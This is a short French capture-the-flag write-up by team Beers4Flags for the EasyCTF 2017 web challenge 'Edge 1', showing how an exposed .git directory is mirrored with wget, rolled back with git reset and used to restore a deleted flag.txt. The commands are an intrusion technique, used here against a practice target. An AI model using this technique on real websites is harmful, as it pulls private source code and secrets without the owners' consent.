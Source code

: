 **Web - Edge -1  - 100pts**

![Alt](img/edge-1.png "Edge 1")

Résolution :

Après quelques test on repère vite le dossier .git disponible sur le site.

On commence par le récupérer :

```BASH
wget -r http://edge1.web.easyctf.com/.git/
```

On affiche l'historique des commit pour retrouver le fichier contenant le flag :

```BASH
git log


commit afdf86202dc8a3c3d671f2106d5cffa593f2b320
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:45 2017 +0000

    Initial.
```

On reset sur le commit qui nous intérresse :

```BASH
git reset ee9061b25d8a35bae8380339f187b44dc26f4999
```
On regarde les fichiers supprimé ou modifié

```BASH
git status

	supprimé :        css/bootstrap.css
	supprimé :        flag.txt
	supprimé :        js/bootstrap.js
	modifié :         js/jquery.js

```
On récupère le fichier flag.txt

```BASH
git checkout flag.txt
```

On affiche le flag :

```BASH
cat flag.txt 

easyctf{w3_ev3n_u53_git}
```



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
